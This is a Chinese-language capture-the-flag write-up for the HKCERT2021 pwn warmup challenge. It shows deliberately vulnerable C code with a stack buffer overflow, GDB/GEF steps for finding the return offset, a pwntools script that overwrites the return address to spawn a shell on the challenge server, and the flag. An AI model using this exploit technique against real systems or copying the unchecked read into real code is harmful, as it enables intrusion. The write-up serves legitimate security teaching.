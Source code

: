 # HKCERT2021 - 想改寫的事
- Write-Up Author: [Ivan Mak](https://ank.pw/tech/)

- Flag: hkcert21{be_c4r3_WIth_7he_5iZe}

## **Question:**
想改寫的事 (50 points)

>Challenge description

![img](./img/1.png)

Attachment: [warmup_6eab9fa64b5dd76649f6c0372315aabe.zip](./warmup_6eab9fa64b5dd76649f6c0372315aabe.zip)

## Write up
- 知識點

這是一道經典的 pwn 基礎題，香港朋友他們在出這一道題之前，已經事先在 Youtube 上發布了 [PWN 101 - Buffer Overflow 【廣東話 CTF 新手教學】](https://www.youtube.com/watch?v=Ag0OcqbVggc)，雖然題目不同，但核心解法和原理幾乎一樣，可以說看了它就能解這題。而且這是一個適合新手的 pwn 入門視頻教學，特別推薦第一次玩 pwn 的小伙伴。

這裡有 2 個很重要的工具需要使用到，[GEF](https://github.com/hugsy/gef) 和 [pwntools](https://github.com/Gallopsled/pwntools)，具體的安裝方法這裡不贅述，你是駭客就自行解決吧。

1. 先看附檔內容

**warmup.c**
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void get_shell() {
    system("/bin/sh");
}

void init() {
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);
    alarm(60);
}

int main () {
    char buf[100];
    char end[8] = "N";
    init();
    printf("Welcome to echo service.\n");
    while(!(end[0] == 'Y' || end[0] == 'y')){
        int num_read = read(0, buf, 0x100);
        if (buf[num_read-1] == '\n')
            buf[num_read-1] = '\0';
        printf("%s", buf);
        printf("End?[Y/N] ");
        scanf("%7s", end);
    }
}
```

這裡的目標是，從 read() 讀一個過長的字串，令 buf[100] 產生溢位(buffer overflow)，從而執行函式 get_shell()

2. 用 GEF 找溢位長度

附檔裡有一個叫 chall 的執行檔，它是 warmup.c 編譯出來的，我先給 chall 一個可執行的屬性。

```
chmod 777 chall

```

a. 運行 gef

```
$ gdb
gef➤ file chall

```

![img](./img/2.png)

b. 查看 main 的 disassemble

```
gef➤  disassemble main

```

![img](./img/3.png)

c. 建立 break point

把 break point 建立在最後一個位置 0x00000000004012ba 上

```
gef➤ break *main+186

```

![img](./img/4.png)

d. 執行並填入大量字串

```
gef➤ run

```

![img](./img/5.png)

![img](./img/6.png)

e. 找出需要用多少字才回傳到 stack 的起始值

```
gef➤ pattern create 500

```

![img](./img/7.png)

![img](./img/8.png)

看到填入的字串產生了變化，搜尋第一行位置的 pattern 值

```
gef➤  pattern search 0x00007fffffffe228

```

![img](./img/9.png)

找到共需填入 383 個字元才到達 stack 的起始回傳的位置

3. 用 python 的 pwntools 寫 payload

記得用 gef 查看一下 get_shell 的位置

```
gef➤  disassemble get_shell
```

![img](./img/10.png)


```
from pwn import *

p = remote("chalp.hkcert21.pwnable.hk",28028)
p.recvuntil("service.")

get_shell = 0x0000000000401182
p.sendline(b"a"*383 + p64(get_shell))

p.recvuntil("End?[Y/N]")
p.sendline("y")

p.interactive()
```

這樣就能取得 shell 的執行權為所欲為
```
ls 
cat flag.txt

```

![img](./img/11.png)

> hkcert21{be_c4r3_WIth_7he_5iZe}
